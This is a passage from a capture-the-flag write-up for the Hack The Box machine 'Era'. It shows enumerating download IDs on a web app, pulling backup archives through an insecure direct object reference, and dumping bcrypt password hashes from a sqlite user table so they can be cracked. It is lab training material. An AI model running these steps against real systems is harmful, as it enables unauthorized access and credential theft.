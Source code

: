 ```bash
5924                    [Status: 200, Size: 48894, Words: 1, Lines: 10001, Duration: 788ms]
```

We find 2 interesting numbers, `150` and `54`. The other number is the file we uploaded.

let's go to `http://file.era.htb/download.php?id=54&dl=true` and to `http://file.era.htb/download.php?id=150&dl=true`.
the files are `signing.zip` and `site-backup-30-08-24.zip`.
```bash
┌──(agonen㉿kali)-[~/htb/Era]
└─$ ls
nmap.txt  numbers.txt  signing.zip  site-backup-30-08-24.zip
```

Then, we `unzip` using the commands:
```bash
unzip signing.zip -d signing
unzip site-backup-30-08-24.zip -d site-backup-30-08-24
```

Inside `site-backup-30-08-24` we can find `filedb.sqlite`, which is sqlite3 db.
I fetched the passwords
```bash
┌──(agonen㉿kali)-[~/htb/Era/site-backup-30-08-24]
└─$ sqlite3 filedb.sqlite
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
files  users
sqlite> select * from users;
1|admin_ef01cab31aa|$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC|600|Maria|Oliver|Ottawa
2|eric|$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm|-1|||
3|veronica|$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK|-1|||
4|yuri|$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.|-1|||
5|john|$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6|-1|||
6|ethan|$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC|-1|||
sqlite> .output users.txt
sqlite> select * from users;
```

Now, we can grab the users and hashes:
```bash
┌──(agonen㉿kali)-[~/htb/Era/site-backup-30-08-24]
└─$ cat users.txt | cut -d "|" -f2
admin_ef01cab31aa
eric
veronica
yuri
john
ethan
                                                                                                                                                 
┌──(agonen㉿kali)-[~/htb/Era/site-backup-30-08-24]
└─$ cat users.txt | cut -d "|" -f3 
$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC
$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm
$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK
$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.
$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6
$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC
```
